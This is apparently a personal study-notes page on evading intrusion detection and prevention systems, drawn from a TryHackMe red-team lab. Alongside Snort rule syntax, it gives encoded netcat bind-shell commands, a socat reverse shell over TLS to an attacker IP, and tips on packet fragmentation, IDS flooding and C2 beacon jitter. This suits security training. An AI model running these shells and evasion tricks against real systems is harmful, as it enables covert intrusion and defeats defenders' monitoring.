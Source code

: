 # Evading-IPS-And-IDS
Visit the [[Intrusion-Detection-Systems]] and [[Intrusion-Prevention-Systems]] articles for more

## Definitions

Acronym | Full Name
--- | --- 
IPS | Intrusion Prevention System
IDS  |Intrusion Detection System
HIDS |  Network-based-IDS
NIDS |  Host-based-IDS

Network Traffic and Host activities is either Benign or Malicious traffic.

Method of Detection | Description
--- | ---
Signature-based | Signatures of known malicious traffic fed into IDS.
Anomaly/Behaviour-based |  Regular traffic model, for IDS to detect anomalies.
Policy-based |  Detect based on policy violations

## IDS/IPS each have rule syntax:
For example [[Snort]] uses:

Rule Header | Rule options 
--- | ---
Action		|	alert, log, pass, drop and reject
Protocol	| 	TCP, UDP, ICMP or IP
Source IP/Port  | IP/mask any # = anything but from IP/mask range
Direction of Flow |	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port |Similar to Source IP/Port
Some more specifics | `flow:established` (full three handsake stream), `content:"<TYPE>"` 

Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability would end up like:
``alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)


## Evasion via protocol manipulation includes:

- Use different protocol
- Source Port
- Session Splicing
- Invalid Packets

#### Relying on a different protocol

IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

#### Manipulating (Source) TCP/UDP port

If you all your traffic coming from an established [[Network-Protocols-Cheatsheet]] port then the recieving end will interpret just by port number, allowing for evasion. Without deep packet inspection, the port numbers are the primary indicator of the service used, unless the security solution can analyze the data carried by the TCP segments.


#### Session Splicing

IPv4, IP packet fragmentation or session splicing - simiply breaking and or reordering packets of data up. The assumption regarding this strategies potental evasiveneess is that if traffic is in smaller packets, you will avoid matching to any of the IDS signatures. Dividing your payload among multiple packets and potential reordering them and the reordering it back to its orginal linear order will evade IDS parsing for particular stream of bytes. Unless the IDS reassembles the packets, the rule won’t be triggered.

#### Sending Invalid Packets

Sending invalid packets the response of systems is unclear, therefore experimenting to with invalid pakects an IDS/IPS might process it, while the target system might ignore it.

Refer to [[Nmap-Cheatsheet]] for experimenting with invalid packets to prove the existence of IDS/IPS.

Suppose you want to force all your packets to be fragmented into specific sizes: see [monkey](https://www.monkey.org/~dugsong/fragroute/)

#### Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation

####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation

For route manipulation see [[Proxies]] and [[Port-Redirection-And-Tunneling]]

With examples from the THM Room use: [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last. Using proxy servers with `--proxies proto://host:port, proto://host:port`, valid protocols are HTTP and SOCKS4 - authenication is not supported.


## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Comand-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)


## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
[monkey](https://www.monkey.org/~dugsong/fragroute/)
[Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):